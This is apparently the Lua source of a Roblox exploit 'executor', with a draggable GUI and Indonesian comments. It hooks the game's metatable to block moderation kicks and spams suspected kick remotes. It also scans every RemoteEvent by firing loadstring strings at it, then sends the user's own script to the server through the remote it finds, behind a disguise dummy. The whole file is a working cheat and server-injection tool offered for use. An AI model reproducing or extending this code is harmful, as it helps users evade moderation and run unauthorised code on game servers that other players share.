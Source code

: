 -- 👁️‍🗨️ GUI EXECUTOR (DRAG + OBFS)
local CoreGui = game:GetService("CoreGui")
local ScreenGui = Instance.new("ScreenGui", CoreGui)
ScreenGui.Name = "ExGui_"..tostring(math.random(1000,9999))

local Main = Instance.new("Frame", ScreenGui)
Main.Size = UDim2.new(0, 400, 0, 300)
Main.Position = UDim2.new(0.5, -200, 0.5, -150)
Main.BackgroundColor3 = Color3.fromRGB(25, 25, 25)
Main.Active = true
Main.Draggable = true

local Title = Instance.new("TextLabel", Main)
Title.Size = UDim2.new(1, 0, 0, 30)
Title.Text = "⚙️ Secure Executor GUI"
Title.BackgroundColor3 = Color3.fromRGB(15, 15, 15)
Title.TextColor3 = Color3.fromRGB(255, 255, 255)

local ScriptBox = Instance.new("TextBox", Main)
ScriptBox.Size = UDim2.new(1, -20, 0, 160)
ScriptBox.Position = UDim2.new(0, 10, 0, 40)
ScriptBox.BackgroundColor3 = Color3.fromRGB(40, 40, 40)
ScriptBox.TextColor3 = Color3.fromRGB(255, 255, 255)
ScriptBox.ClearTextOnFocus = false
ScriptBox.MultiLine = true
ScriptBox.Text = "-- Masukkan script Lua kamu"
ScriptBox.TextXAlignment = Enum.TextXAlignment.Left
ScriptBox.TextYAlignment = Enum.TextYAlignment.Top

local Inject = Instance.new("TextButton", Main)
Inject.Text = "Inject"
Inject.Size = UDim2.new(0, 80, 0, 30)
Inject.Position = UDim2.new(0, 10, 0, 210)

local Execute = Instance.new("TextButton", Main)
Execute.Text = "Execute"
Execute.Size = UDim2.new(0, 80, 0, 30)
Execute.Position = UDim2.new(0, 100, 0, 210)

local Clear = Instance.new("TextButton", Main)
Clear.Text = "Clear"
Clear.Size = UDim2.new(0, 80, 0, 30)
Clear.Position = UDim2.new(0, 190, 0, 210)

local Close = Instance.new("TextButton", Main)
Close.Text = "Close"
Close.Size = UDim2.new(0, 80, 0, 30)
Close.Position = UDim2.new(0, 280, 0, 210)

local Status = Instance.new("TextLabel", Main)
Status.Size = UDim2.new(1, -20, 0, 20)
Status.Position = UDim2.new(0, 10, 1, -30)
Status.Text = "Status: Belum Inject"
Status.TextColor3 = Color3.new(1, 1, 1)
Status.BackgroundTransparency = 1
Status.TextXAlignment = Enum.TextXAlignment.Left

-- 🛡️ ANTI KICK & SERVER DISTRACTOR
local mt = getrawmetatable(game)
setreadonly(mt, false)
local old = mt.__namecall
local remote = nil
local suspectedRemotes = {}

mt.__namecall = newcclosure(function(self, ...)
    local args = {...}
    local method = getnamecallmethod()

    if tostring(method):lower() == "kick" then
        warn("⚠️ Kick dicegah! Menyerang balik server...")

        spawn(function()
            for i = 1, 3 do
                pcall(function()
                    game:GetService("ReplicatedStorage"):FireServer("OpenMenu", "Shop")
                    wait(0.5)
                end)
            end
        end)

        pcall(function()
            game.Players.LocalPlayer.Kick = function()
                print("Server tidak bisa kick.")
            end
        end)

        return
    end

    -- Pantau RemoteEvent yang mungkin dipakai untuk kick
    if typeof(self) == "Instance" and self:IsA("RemoteEvent") then
        if typeof(args[1]) == "string" and args[1]:lower():find("kick") then
            table.insert(suspectedRemotes, self)
            warn("🚨 Terindikasi remote kick: ", self.Name)
        end
    end

    return old(self, ...)
end)

hookfunction(game.Players.LocalPlayer.Kick, function()
    warn("⚠️ Kick dicegah (HookFunction)")
end)

-- Loop distractor remote
spawn(function()
    while true do
        for _, r in pairs(suspectedRemotes) do
            pcall(function()
                r:FireServer("Ping")
                r:FireServer("RequestHelp", "PlayerLost")
            end)
        end
        wait(2)
    end
end)

-- 🧠 Remote Scanner + Inject Handler
Inject.MouseButton1Click:Connect(function()
    Status.Text = "Status: Scanning Remote..."
    for _, v in ipairs(game:GetDescendants()) do
        if v:IsA("RemoteEvent") then
            pcall(function()
                v:FireServer("loadstring('print(\"scan\")')()")
            end)
            wait(0.15)
            if not remote then
                remote = v
                Status.Text = "✅ Remote ditemukan: " .. v.Name
            end
        end
    end
    if not remote then
        Status.Text = "❌ Remote tidak ditemukan"
    end
end)

-- 🚀 Execute ke server
Execute.MouseButton1Click:Connect(function()
    if not remote then
        Status.Text = "❗ Belum Inject"
        return
    end

    local payload = ScriptBox.Text
    Status.Text = "Status: Kirim dummy dulu..."
    remote:FireServer("loadstring([[-- disguise dummy]])()")
    wait(1.5)

    Status.Text = "Status: Menjalankan script..."
    pcall(function()
        remote:FireServer("loadstring([["..payload.."]])()")
    end)
    Status.Text = "✅ Script dikirim!"
end)

-- 🧽 Clear
Clear.MouseButton1Click:Connect(function()
    ScriptBox.Text = ""
end)

-- ❌ Close
Close.MouseButton1Click:Connect(function()
    ScreenGui:Destroy()
end)
